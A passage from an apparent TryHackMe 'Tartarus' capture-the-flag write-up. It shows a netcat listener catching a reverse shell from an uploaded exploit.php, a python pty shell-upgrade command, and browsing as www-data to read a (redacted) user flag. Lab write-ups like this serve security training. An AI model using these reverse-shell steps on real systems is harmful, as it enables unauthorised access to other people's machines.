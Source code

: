 <img src="../images/tartarus_index.png" alt="main window" width="500"/>
<br>
I then set up a local netcat session on port 4567 and then clicked the exploit.php. This now opens a shell on the target host.
```
karti@kali-pt:~/CTF/tryhackme/tartarus$ nc -lnvp 4567
listening on [any] 4567 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.218.247] 50460
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:51:19 up  1:56,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
I then open up a proper shell.
```
python -c "import pty; pty.spawn('/bin/bash')"
```
Lets look around and see what we can get.
```
www-data@ubuntu-xenial:/$ ls
ls
bin   home	      lib64	  opt	sbin  tmp      vmlinuz
boot  initrd.img      lost+found  proc	snap  usr      vmlinuz.old
dev   initrd.img.old  media	  root	srv   vagrant
etc   lib	      mnt	  run	sys   var
www-data@ubuntu-xenial:/$ cd /home
cd /home
www-data@ubuntu-xenial:/home$ ls
ls
c-----p  d----h  t-------o
www-data@ubuntu-xenial:/home$ cd ------	
cd ------
www-data@ubuntu-xenial:/home/------$ ls
ls
cleanup.py  user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt
cat user.txt
<insert user flag here>
```
That is the user flag sorted. What about the admin?
